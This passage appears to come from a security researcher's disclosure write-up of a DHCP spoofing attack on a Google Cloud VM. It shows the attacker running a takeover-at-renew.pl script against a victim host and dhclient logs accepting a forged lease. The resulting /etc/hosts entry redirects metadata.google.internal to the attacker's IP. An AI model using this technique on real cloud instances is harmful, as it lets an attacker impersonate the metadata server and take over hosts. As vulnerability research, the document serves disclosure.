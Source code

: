 
A 10 minute window consists of ~600 potetial XIDs. I rebooted the victim host (`10.128.0.4`), logged in, ran
`journalctl -f|grep dhclient` to see what is going on. Then I executed the `takeover-at-renew.pl` script 
on the attacker machine (internal ip: `10.128.0.2`, external ip: `35.209.180.239`, a VM on the same subnet):

```
# ONESHOT_WINDOW_MIN=10 ./takeover-at-renew.pl 10.128.0.4 35.209.180.239
```

This resulted the following log lines on the victim machine:

```
Oct 02 07:06:05 test-instance-2 dhclient[301]: DHCPREQUEST for 10.128.0.4 on ens4 to 169.254.169.254 port 67
Oct 02 07:06:05 test-instance-2 dhclient[301]: DHCPACK of 10.128.0.4 from 169.254.169.254
Oct 02 07:06:05 test-instance-2 dhclient[301]: bound to 10.128.0.4 -- renewal in 5 seconds.
Oct 02 07:06:10 test-instance-2 dhclient[301]: DHCPREQUEST for 10.128.0.4 on ens4 to 169.254.169.254 port 67
Oct 02 07:06:10 test-instance-2 dhclient[301]: DHCPACK of 10.128.0.4 from 169.254.169.254
Oct 02 07:06:11 test-instance-2 dhclient[301]: bound to 10.128.0.4 -- renewal in 5 seconds.
Oct 02 07:06:16 test-instance-2 dhclient[301]: DHCPREQUEST for 10.128.0.4 on ens4 to 169.254.169.254 port 67
Oct 02 07:06:16 test-instance-2 dhclient[301]: DHCPACK of 10.128.0.4 from 169.254.169.254
Oct 02 07:06:16 test-instance-2 dhclient[301]: bound to 10.128.0.4 -- renewal in 5 seconds.
Oct 02 07:06:21 test-instance-2 dhclient[301]: DHCPREQUEST for 10.128.0.4 on ens4 to 169.254.169.254 port 67
Oct 02 07:06:21 test-instance-2 dhclient[301]: DHCPACK of 10.128.0.4 from 169.254.169.254
Oct 02 07:06:21 test-instance-2 dhclient[301]: bound to 10.128.0.4 -- renewal in 5 seconds.
Oct 02 07:06:26 test-instance-2 dhclient[301]: DHCPREQUEST for 10.128.0.4 on ens4 to 169.254.169.254 port 67
Oct 02 07:06:26 test-instance-2 dhclient[301]: DHCPACK of 10.128.0.4 from 169.254.169.254
Oct 02 07:06:26 test-instance-2 dhclient[301]: bound to 10.128.0.4 -- renewal in 5 seconds.
Oct 02 07:06:31 test-instance-2 dhclient[301]: DHCPREQUEST for 10.128.0.4 on ens4 to 169.254.169.254 port 67
Oct 02 07:06:31 test-instance-2 dhclient[301]: DHCPACK of 35.209.180.239 from 10.128.0.2
Oct 02 07:06:32 metadata dhclient[301]: bound to 35.209.180.239 -- renewal in 5 seconds.
Oct 02 07:06:37 metadata dhclient[301]: DHCPREQUEST for 35.209.180.239 on ens4 to 35.209.180.239 port 67
Oct 02 07:06:44 metadata dhclient[301]: DHCPREQUEST for 35.209.180.239 on ens4 to 35.209.180.239 port 67
Oct 02 07:06:46 metadata dhclient[301]: DHCPACK of 10.128.0.4 from 10.128.0.2
Oct 02 07:06:47 metadata dhclient[301]: bound to 10.128.0.4 -- renewal in 5 seconds.
```

This means the 6th round was successful. With "normal" lease renewal (unpatched `dhclient`), the same thing would have 
taken ~3 hours.

The attack was indeed successful:

```
root@test-instance-2:~# cat /etc/hosts
127.0.0.1       localhost
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

35.209.180.239 metadata.google.internal metadata  # Added by Google
169.254.169.254 metadata.google.internal  # Added by Google
```
